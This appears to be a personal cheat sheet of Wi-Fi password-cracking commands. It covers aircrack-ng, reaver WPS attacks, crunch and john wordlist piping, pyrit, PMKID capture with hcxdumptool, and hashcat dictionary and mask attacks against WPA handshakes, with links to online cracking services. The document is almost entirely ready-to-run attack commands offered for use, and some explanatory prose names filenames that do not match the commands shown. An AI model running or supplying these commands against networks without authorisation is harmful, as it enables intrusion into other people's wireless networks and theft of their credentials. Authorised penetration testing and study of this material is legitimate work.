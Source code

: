 # Wifi Crack

## Aircrack: (Hash)

	aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk\*.cap

## Reaver: (PSK)

	reaver -i mon0 -c 6 -b 00:23:69:48:33:95 -vv
	reaver -i wlan0mon <replace with yours> -b <bssid> -c <channel no> -K 1 -vv

## Crunch & Aircrack:

	crunch 8 8 0123456789 -s 00000000 -e 99999999 | aircrack -e test proof.cap -w -

Use john to keep a session of aircrack when used with huge wordlist:

	crunch 8 8 | john --stdin --wordlist=password.lst --stdout --session=sessname | aircrack-ng -b C0:25:E9:62:CE:E5 psk-01.cap -w -


## John & Aircrack:

	john --wordlist=password.lst --rules=Jumbo --stdout | aircrack-ng -b C0:25:E9:62:CE:E5 psk-01.cap -w -

Use john to keep a session of aircrack when used with huge wordlist:

	john --wordlist=password.lst --rules=Jumbo --stdout --session=sessname | aircrack-ng -b C0:25:E9:62:CE:E5 psk-01.cap -w -

https://wpa-sec.stanev.org/
https://github.com/danielmiessler/SecLists

## Pyrit:

Pyrit is one of the fastest tools available for WPA password-cracking out there.

One helpful tool is the strip command, which strips down long capture files to only include relevant packets. And then there's the verify option that lets Pyrit confirm results via recomputation.

Pyrit also has several features to import multiple password lists into a large database. To prevent duplicates, the import_unique_passwords command can also strip out passwords that appear multiple times in the same file we're trying to import. After we import passwords to the database, we can start cracking them with the attack_batch option.

Download a Password List & Benchmark System:

	wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt

	pyrit benchmark (benchmark our system)

	pyrit -i '/root/Desktop/probable-v2-wpa-top4800.txt' import_passwords (import passwords to the database)

Capture handshakes:

	airmon-ng start wlan0
	airodump-ng wlan0mon -c 3 -w capture
	pyrit -r '/root/Desktop/capture-01.cap' analyze (analyse captured file to show if we have a valid handshake)

Final command:

	pyrit -r capture.pcap -o savedpass attack_batch

## Hxctools & Hashcat

In this case we use Hxctools & Hashcat to capture packets and crack the password but we can do that automaticaly with wifite, if the necessary softwares are installed Wifite will automaticaly use them and give us a URL to upload the modified handshakes. Then the password cracking is performed from connected server online using different password lists.

Install Hxctools & Hashcat:

	sudo apt-get install libcurl4-openssl-dev libssl-dev zlib1g-dev

MacOs Install:

	brew install hashcat hxctools
	
On your Git folder:

	git clone https://github.com/ZerBea/hcxdumptool.git
	cd hcxdumptool
	sudo make
	sudo make install

On your Git folder:

	git clone https://github.com/ZerBea/hcxtools.git
	cd hcxtools
	sudo make
	sudo make install

	apt install hashcat

Use Hxcdump to Capture PMKIDs from Local Networks

	airmon-ng start wlan0
	
	hcxdumptool -i wlan0mon -o capture.pcapng --enable__status=1

-i tells the program which interface we are using, in this case, wlan0mon. The filename we'll be saving the results to can be specified with the -o flag argument. The channel we want to scan on can be indicated with the -c flag followed by the number of the channel to scan.

Use Hxcpcaptool to Convert the Dump for Hashcat:

To convert our PCAPNG file, we'll use hcxpcaptool with a few arguments specified. In the same folder that your .PCAPNG file is saved, run the following command in a terminal window.

	hcxpcaptool -z hash capture.pcapng

	hcxpcaptool -E essidlist -I identitylist -U usernamelist -z hash capture.pcapng

This command is telling hxcpcaptool to use the information included in the file to help Hashcat understand it with the -E, -I, and -U flags. The -Z flag is used for the name of the newly converted file for Hashcat to use, and the last part of the command is the PCAPNG file we want to convert.

Select a Password List & Brute Force with Hashcat:

	hashcat -m 16800 --force hash /home/user/Downloads/rockyou.txt.txt -w 4 -a 0

	hashcat -m 16800 --force hash /home/user/Downloads/rockyou.txt.txt > out.txt

	hashcat -m 16800 --force hash /home/user/Downloads/rockyou.txt.txt --show

 New:

 	hashcat -m 22000 -a 3 --session session_name /Users/nicolasgrimonpont/Hash '?1?1?1?1?1?1?1?1' -1 '?l?u?d'

  This is a mask attack:
  - m 22000 (new WPA algo)
  - '?1?1?1?1?1?1?1?1' (mask lenght)
  - -1 '?l?u?d' (custom rule 1) uppercase, lowercase, digit

  - '?2?2?2?2?2?2?2?2' (mask lenght)
  - -2 '?l?u?d' (custom rule 2) uppercase, lowercase, digit

	
In this command, we are starting Hashcat in 16800 mode, which is for attacking WPA-PMKID-PBKDF2 network protocols. Next, we'll specify the name of the file we want to crack, in this case, "HC.16800." The -a flag tells us which types of attack to use, in this case, a "straight" attack, and then the -w and --kernel-accel=1 flags specifies the highest performance workload profile. If your computer suffers performance issues, you can lower the number in the -w argument.

Next, the --force option ignores any warnings to proceed with the attack, and the last part of the command specifies the password list we're using to try to brute force the PMKIDs in our file, in this case, called "topwifipass.txt."

Online cracking:

	https://gpuhash.me/
